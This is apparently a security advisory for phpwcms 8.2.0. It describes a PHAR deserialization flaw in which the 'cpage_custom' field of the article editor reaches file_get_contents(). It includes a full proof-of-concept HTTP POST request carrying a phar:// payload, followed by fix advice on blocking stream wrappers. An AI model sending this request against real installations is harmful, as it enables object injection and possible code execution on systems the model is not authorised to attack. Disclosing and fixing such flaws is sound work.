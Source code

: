 # `phar` deserialization vulnerability in `cnt21.readform.inc.php#file_get_contents`

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the article content type 21 (Custom Source Tab) through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cpage_custom' parameter in the content editing form, which is passed directly to the file_get_contents() function without proper validation. This vulnerability allows attackers to inject PHP Objects through a PHAR file or utilize various PHP stream wrappers for side-channel attacks.  Attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.

![alt text](../dists/phpwcms1.png)

```text
POST /phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&aktion=2&id=1 HTTP/1.1
Host: dem0.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://dem0.com/phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&id=1
Origin: http://dem0.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: phpwcmsBELang=en; PHPSESSID=ndprgg1lkuk77l5vrhdbejep2e
Cache-Control: max-age=0
Content-Length: 219

csrf_token_name=csrf6825cb2230f394.61788130&csrf_token_value=08854df019d6a36b5c096237306340b9c93a9751bc99487c0fd94541ff60f09898f95d44b72a50766972de827e7ae15b9feb13d6a88801f6c9280a03a98632fa&ctype=21&csorting=0&caktion=1&cpage_source=1&caid=1&cpage_custom=phar%3A%2F%2F..%2F..%2Fexp.phar&ctitle=2&csubtitle=3&ccomment=4&cpaginate_title=5&cbefore=&cafter=&cid=1&clivedate=&ckilldate=&cblock=2
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to implement proper input validation for the 'cpage_custom' parameter. The application should restrict the protocols that can be used with file_get_contents() to only allow safe values, explicitly blocking dangerous protocols like 'phar://', 'php://', and other potentially malicious stream wrappers. Additionally, implementing a whitelist approach that only allows specific protocols (such as 'http://' and 'https://') would provide stronger protection. Proper sanitization and validation of user input are critical for mitigating this risk.

This vulnerability can also lead to arbitrary file read issues. See the reference link below:

[https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)
